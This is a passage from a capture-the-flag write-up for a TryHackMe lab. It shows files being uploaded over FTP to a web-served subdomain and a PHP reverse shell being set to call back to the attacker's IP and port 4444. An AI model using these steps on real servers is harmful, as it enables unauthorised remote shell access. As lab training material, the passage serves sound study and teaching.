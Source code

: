 Upload the file, and change it's permission because by default you won't be able to read it from the webserver:

```text
ftp> put test.txt
local: test.txt remote: test.txt
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
16 bytes sent in 0.00 secs (868.0555 kB/s)

ftp> chmod 777 test.txt
200 SITE CHMOD command ok.
```

I tried adana.thm/test.txt but that didn't work so I tried subdomain.adana.thm and we get the file:

![diffctf-test](/assets/images/2021-04-22-21-44-30.png)

We have confirmed that a file uploaded via FTP can be accessed on the subdomain. Time to put a reverse shell on there, let's find one of the built in ones:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# locate php-reverse-shell
/root/htb/spectra/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
```

I like the pentestmonkey one:

```text
┌──(root💀kali)-[~/thm/diffctf]
└─# cp /usr/share/laudanum/php/php-reverse-shell.php shell.php
```

Just need to put our current tun0 IP in and a port:

```text
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.8.165.116';  // CHANGE THIS
$port = 4444;       // CHANGE THIS
$chunk_size = 1400;
```

Upload it and change permissions:

```text
ftp> put shell.php
local: shell.php remote: shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5494 bytes sent in 0.00 secs (218.3119 MB/s)

ftp> chmod 777 shell.php
200 SITE CHMOD command ok.
```
